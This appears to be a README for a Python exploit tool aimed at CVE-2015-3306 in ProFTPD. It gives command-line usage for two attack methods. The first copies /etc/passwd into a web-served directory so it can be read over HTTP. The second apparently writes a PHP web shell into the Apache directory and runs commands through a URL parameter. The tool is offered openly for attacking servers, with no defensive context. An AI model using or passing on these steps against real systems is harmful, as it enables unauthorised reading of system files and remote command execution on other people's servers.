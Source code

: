 # cpx_proftpd.py (by daldana)

Tool for exploit CVE-2015-3306

METHOD 1:
--------
usage: 
  python cpx_proftp.py 1 &gt;IP&lt; &gt;REMOTE_FULLPATH_SRC_FILE&lt; &gt;REMOTE_FULLPATH_DST_FILE&lt;

ex:
  python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt

then try:
  http://127.0.0.1/pass.txt

METHOD 2:
--------

usage: 
  python cpx_proftp.py 2 &gt;IP&lt; &gt;REMOTE_FULLPATH_APACHE2&lt;

ex:
  python cpx_proftp.py 2 127.0.0.1 /var/www/html

then try:
  http://127.0.0.1/xxx.php?img=ls
